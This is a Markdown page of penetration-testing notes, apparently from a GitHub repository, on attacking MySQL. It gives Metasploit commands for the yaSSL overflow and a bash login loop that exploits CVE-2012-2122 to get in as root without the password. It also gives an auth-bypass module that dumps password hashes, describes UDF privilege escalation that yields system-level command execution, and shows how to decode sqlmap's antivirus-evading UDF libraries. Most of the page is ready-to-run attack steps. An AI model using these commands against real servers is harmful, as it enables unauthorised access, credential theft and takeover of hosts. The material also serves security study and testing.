 ````sql

## MySQL Historical Vulnerabilities
### yaSSL buffer overflow
This vulnerability can be directly attacked using the built-in Payload in MSF.

```sh
use exploit/windows/mysql/mysql_yassl_hello
use exploit/linux/mysql/mysql_yassl_hello
```

### CVE-2012-2122
[CVE-2012-2122 Detail](https://nvd.nist.gov/vuln/detail/CVE-2012-2122), you can use `vulhub` to reproduce the vulnerability.

If you don't know the correct password of `MySQL`, run the following command under `bash`, and you can log in successfully after a certain number of attempts:

```bash
for i in `seq 1 1000`; do mysql -uroot -pwrong -h your-ip -P3306 ; done
```


This vulnerability can also be directly attacked using the built-in Payload in MSF. After success, it will directly output the `Hash` value of `MySQL`.

```sh
use auxiliary/scanner/mysql/mysql_authbypass_hashdump
set rhosts 127.0.0.1
run
```

## UDF escalation
`UDF`(user defined function), that is, user-defined function. It expands the functions of `MySQL` by adding new functions, just like using local `MySQL` functions such as `user()` or `concat()`.

`UDF` privilege escalation is to use the created custom function `sys_eval` (this custom function can execute any system commands), and the `dll` file needs to be stored in the `lib/plugin` directory of the `MySQL` installation directory (when `MySQL>5.1`, this directory does not exist by default). Call this custom function in `MySQL` to achieve the shell permission of the `system` of the other host, thereby achieving the purpose of escalation of rights.

### Dynamic Link Library
The `UDF.dll` dynamic link library file can be found in the commonly used tools `sqlmap` and `Metasploit`. It should be noted that the dynamic link library built in `sqlmap` has been encoded and cannot be used directly in order to prevent it from being killed by accident. It needs to be used to decode and use it.

```sh
# Decode 32-bit Linux dynamic link library
python3 cloak.py -d -i ../../data/udf/mysql/linux/32/lib_mysqludf_sys.so_ -o lib_mysqludf_sys_32.so

# Decode 64-bit Linux dynamic link library
python3 cloak.py -d -i ../../data/udf/mysql/linux/64/lib_mysqludf_sys.so_ -o lib_mysqludf_sys_64.so

# Decode 32-bit Windows dynamic link library
python3 cloak.py -d -i ../../data/udf/mysql/windows/32/lib_mysqludf_sys.dll_ -o lib_mysqludf_sys_32.dll

# Decode 64-bit Windows dynamic link library
python3 cloak.py -d -i ../../data/udf/mysql/windows/64/lib_mysqludf_sys.dll_ -o lib_mysqludf_sys_64.dll
```

<div align=center><img src="./images/17.png"></div>
````